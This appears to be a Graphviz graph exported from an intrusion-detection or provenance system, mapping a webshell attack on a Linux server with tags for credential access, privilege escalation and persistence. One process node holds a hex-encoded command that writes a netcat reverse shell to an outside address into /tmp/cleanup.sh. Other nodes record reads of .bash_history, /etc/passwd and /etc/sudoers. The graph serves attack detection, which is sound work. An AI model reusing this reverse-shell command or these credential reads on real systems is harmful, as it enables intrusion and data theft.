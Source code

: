 digraph graph1 {
node [shape = Mrecord];
table184 [label = "{<head>processname: cat | pid: 1384 | cmdline: cat .bash_history | starttime: 1618986697596000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986697596000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table185 [shape = record, label = "{<head>filename: /home/manager/.bash_history | label: FS4 bash_history timestamp: 1618986697596000000}"];
table184 -> table185[label = "action: 0  FS4->PS4"];
table41 [shape = record, label = "{<head>filename: /etc/passwd | label: FT2 The file is sensitive as default. timestamp: 1618985500876000000 | label: FS3 passwd timestamp: 1618985500876000000}"];
table184 -> table41[label = "action: 0  FS3->PS3"];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table184 -> table157[label = "action: 0  FT9->PT8"];
table181 [shape = record, label = "{<head>filename: /etc/sudoers | label: FS2 sudoers timestamp: 1618986648760000000 | label: FT2 The file is sensitive as default. timestamp: 1618986648760000000 | label: FS5 high price file timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table184 -> table181[label = "action: 1  FS2->PS2"];
table153 [shape = record, label = "{<head>filename: /etc/crontab | label: FS1 crontab timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table184 -> table153[label = "action: 1  FS1->PS1"];
node [shape = record];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: -1 | uuid: 1378}"];
table172 -> table184[label = "event: Create process"];
node [shape = record];
table165 [label = "{<head>processname: sh | pid: 1374 | cmdline: /bin/sh /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1374}"];
table165 -> table172[label = "event: Create process"];
node [shape = record];
table163 [label = "{<head>processname: sh | pid: 1373 | cmdline: /bin/sh -c /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1373}"];
table163 -> table165[label = "event: Create process"];
}
